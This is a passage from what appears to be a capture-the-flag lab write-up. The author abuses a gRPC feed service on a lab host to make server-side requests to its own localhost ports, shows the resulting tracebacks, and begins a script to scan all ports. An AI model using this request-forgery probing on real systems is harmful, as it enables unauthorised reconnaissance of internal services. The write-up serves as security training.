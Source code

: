 

    root@kali# python3 feedengine_client.py # 80
    Traceback (most recent call last):
      File "feedengine_client.py", line 32, in <module>
        response = stub.Feed(content)
      File "/usr/local/lib/python3.8/dist-packages/grpc/_channel.py", line 826, in __call__
        return _end_unary_response_blocking(state, call, False, None)
      File "/usr/local/lib/python3.8/dist-packages/grpc/_channel.py", line 729, in _end_unary_response_blocking
        raise _InactiveRpcError(state)
    grpc._channel._InactiveRpcError: <_InactiveRpcError of RPC that terminated with:
            status = StatusCode.UNKNOWN
            details = "Exception calling application: (7, 'Failed to connect to localhost port 80: Connection refused')"
            debug_error_string = "{"created":"@1599775944.250446124","description":"Error received from peer ipv4:10.10.10.201:9000","file":"src/core/lib/surface/call.cc","file_line":1061,"grpc_message":"Exception calling application: (7, 'Failed to connect to localhost port 80: Connection refused')","grpc_status":2}"
    >

    root@kali# python3 feedengine_client.py # 9100
    Traceback (most recent call last):
      File "feedengine_client.py", line 32, in <module>
        response = stub.Feed(content)
      File "/usr/local/lib/python3.8/dist-packages/grpc/_channel.py", line 826, in __call__
        return _end_unary_response_blocking(state, call, False, None)
      File "/usr/local/lib/python3.8/dist-packages/grpc/_channel.py", line 729, in _end_unary_response_blocking
        raise _InactiveRpcError(state)
    grpc._channel._InactiveRpcError: <_InactiveRpcError of RPC that terminated with:
            status = StatusCode.UNKNOWN
            details = "Exception calling application: (1, 'Received HTTP/0.9 when not allowed\n')"
            debug_error_string = "{"created":"@1599775916.735603335","description":"Error received from peer ipv4:10.10.10.201:9000","file":"src/core/lib/surface/call.cc","file_line":1061,"grpc_message":"Exception calling application: (1, 'Received HTTP/0.9 when not allowed\n')","grpc_status":2}"
    >



Port 80 returned an error of "Failed to connect to localhost port 80:
Connection refused", whereas port 9100 returned an error of "Received
HTTP/0.9 when not allowed". I can work with this.

I'll re-write the script to try all the ports on localhost and see which
respond:



    #!/usr/bin/env python3

    import base64
    import grpc
    import pickle
    import sys
    import feedengine_pb2
    import feedengine_pb2_grpc
